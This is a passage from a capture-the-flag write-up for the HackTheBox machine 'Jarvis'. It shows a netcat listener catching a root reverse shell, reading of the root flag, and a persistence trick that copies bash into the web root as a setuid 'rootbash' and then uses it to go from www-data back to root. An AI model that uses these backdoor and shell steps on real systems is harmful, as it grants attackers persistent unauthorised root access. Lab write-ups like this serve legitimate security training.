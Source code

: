 ```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/jarvis]
└─$ nc -lvnp 6666 
listening on [any] 6666 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.143] 41276
bash: cannot set terminal process group (6957): Inappropriate ioctl for device
bash: no job control in this shell
root@jarvis:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

It worked, the shell runs as user root.

### Root Flag

---

Since I have root permissions, I can read the root flag:

```bash
root@jarvis:/# cat /root/root.txt
cat /root/root.txt
d4**************************4271
```

# Persistency

---

Since the box did not take too long, I tried to gain persistent root access on the system. For this, I created rootbash:

```bash
root@jarvis:/tmp# cp /bin/bash /var/www
cp /bin/bash /var/www
root@jarvis:/var/www# cp bash rootbash
cp bash rootbash
root@jarvis:/var/www# ls
ls
Admin-Utilities
bash
html
rootbash
root@jarvis:/var/www# chmod +s rootbash
chmod +s rootbash
```

This should be enough, I try to gain root access from www-data:

```bash
www-data@jarvis:/var/www$ ls
Admin-Utilities  bash  html  rootbash
www-data@jarvis:/var/www$ ./rootbash -p
rootbash-4.4# whoami
root
```
